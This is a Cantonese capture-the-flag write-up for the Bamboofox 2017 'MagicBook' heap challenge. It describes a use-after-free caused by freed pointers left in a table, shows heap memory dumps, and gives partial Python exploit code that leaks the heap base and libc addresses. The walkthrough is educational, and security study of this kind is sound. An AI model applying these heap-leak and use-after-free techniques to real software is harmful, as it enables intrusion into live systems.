 # Bamboofox 2017 MagicBook

呢條係好簡單嘅heap overflow題,本身就應該solve到既(可惜揾錯one gadget RCE address),係到要推介下hitcon david 大大嘅 [One_gadget](https://github.com/david942j/one_gadget) ,有佢就唔洗係IDA Pro 揾(錯) one gadget RCE 

Menu:
```

oh my god!!!!
You are just a normal human.......
You can only use at most five kinds of magic (vanished).

====== Magic Book ======
  1. Add a chant.

  2. Delete a chant.

  3. spell it !!!

========================
Choose a feature :

```

有得add, delete同 spell.

Spell就係用黎call print chant 嘅 option,同時print chant本身都係chant object嘅一枝function pointer(好重要)

每一次‵call add, 首先會malloc 一個 0x10嘅chunk 放function pointer 同content pointer, 再malloc 一個由用家input size 嘅chunk 去放input content

heap view :
```
0x603010:	0x0000000000400826	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021
0x603030:	0x4141414141414141	0x000000000000000a
0x603040:	0x0000000000000000	0x0000000000020fc1
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000

```

而佢又有另一個table store heap address

```
0x6020a0 <list>:	0x0000000000603010	0x0000000000000000
0x6020b0 <list+16>:	0x0000000000000000	0x0000000000000000
0x6020c0 <list+32>:	0x0000000000000000	0x0000000000000000

```
個bug就係呢到,free完之後上面個table,係相應位置冇set 0,引致use after free

可以開始exploit 

不過由於無edit function 所以我地唔可以用unlink->GOT Hijacking 

普通fastbin attack 都唔得,因為add 會先malloc function pointer再malloc content

由於我地控制唔到function pointer會去乜位所以就會crash 

不過點都好我地都要leak libc, heapbase (呢到無用)

```python
print "[+] Leaking heapbase : "
add(0,128,"AAAA")
add(1,128,"BBBB")
add(2,128,"CCCC")
add(3,128,"AAAA")
free(0)
free(2)
add(0,128,"DDDDDDD")
leakk=leak("DDDDDDD",0)
heapbase=int(leakk,16)-0x180
print "heapbase :"+hex(heapbase)
add(2,128,"DDDDDDD")
free(3)
free(2)
free(1)
free(0)

print "[+] Leaking Libc : "
add(0,128,"AAAA")
add(1,128,"BBBB")
add(2,128,"CCCC")
free(0)
add(0,128,"DDDDDDD")
leakk=leak("DDDDDDD",0)
```

只要利用smallbin free完之後嘅fd bk pointer再配合puts leak libc heapbase 出黎(可以參考[Mental Snapshot - _int_free and unlink](http://uaf.io/exploitation/misc/2016/09/11/_int_free-Mental-Snapshot.html))  


